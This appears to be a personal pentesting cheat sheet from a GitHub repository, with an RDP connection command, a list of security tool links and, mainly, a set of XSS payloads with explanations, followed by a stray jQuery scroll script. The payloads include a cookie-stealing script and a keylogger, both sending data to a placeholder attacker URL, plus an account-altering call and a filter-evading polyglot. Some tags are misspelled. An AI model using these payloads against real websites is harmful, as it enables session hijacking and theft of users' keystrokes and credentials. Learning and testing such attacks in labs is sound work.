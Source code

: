 # pentesting_time
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
  <li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  <li> <a href='#n1'>command examples</a>
  <li> <a href='#n2'>payloads</a>
  <li> <a href='#n3'>helpful sites</a>
  <!--<li> cheat sheet injections
  <li> tools like gitlab hash identify
  <li> shells!-->
</ol>

<h2 id='n1'>Commands</h2> 
<h3>Remote Desktop Protocol (rdp)</h3>
  xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:User /p:'Password'

<h2 if='n2'>Payloads</h2>
    <h3>XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <script>alert('Success XSS');</script>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <script>fetch('url/steal?cookie=' + btoa(document.cookie));</script>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> -  <script>user.changeEmail('your@email.com');</script>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
        
<h2 id='n3'>Sites</h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
        
        
       
 $(document).ready(function(){
	$("#menu").on("click","a", function (event) {
		//отменяем стандартную обработку нажатия по ссылке
		event.preventDefault();

		//забираем идентификатор бока с атрибута href
		var id  = $(this).attr('href'),

		//узнаем высоту от начала страницы до блока на который ссылается якорь
			top = $(id).offset().top;
		
		//анимируем переход на расстояние - top за 1500 мс
		$('body,html').animate({scrollTop: top}, 1500);
	});
});
